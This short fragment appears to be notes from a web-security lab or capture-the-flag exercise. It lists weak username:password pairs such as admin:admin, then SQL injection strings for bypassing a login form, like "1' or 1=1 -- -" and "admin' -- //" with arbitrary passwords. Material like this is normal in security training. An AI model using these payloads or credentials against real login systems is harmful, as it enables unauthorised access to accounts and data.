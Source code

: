 admin:admin
bob:password
suresh:troll
ramesh:troll
alice:alice1
voldemort:horcrux
frodo:frodo
hodor:hodor
rhombus:rhombus
///

1' or 1=1 -- -

username: admin' -- // 
password: anythinghere

username: ' or 1 -- // 
password: anythinghere

username: suresh' -- // 
password: anythinghere